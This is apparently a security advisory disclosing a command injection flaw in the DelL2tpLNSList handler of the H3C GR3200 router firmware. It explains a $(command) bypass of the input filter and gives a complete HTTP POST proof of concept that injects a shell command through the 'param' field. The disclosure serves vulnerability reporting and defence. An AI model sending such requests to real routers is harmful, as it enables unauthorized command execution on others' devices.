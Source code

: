 # H3C GR3200 MiniGR1B0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

Overview of affected versions of H3C GR3200 router：

![image-20220724132311844](img/image-20220724132311844.png)

## Vulnerability details

H3C GR3200 (<=MiniGR1B0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724112402312](img/image-20220724112402312.png)

Format the `param` parameter we entered into `V15` through the `snprintf` function, and execute our command through the system function. Because `V10` and `V11` are limited to 8 bytes, we can fill `V10` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V10` and `V11` will be connected actively.

![image-20220724132824754](img/image-20220724132824754.png)

Although the `sub_100695A4` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```

![image-20220724133957626](img/image-20220724133957626.png)

The picture above shows the debug log after POC is sent.

![image-20220724133234021](img/image-20220724133234021.png)

The above illustration shows the effect of command execution.

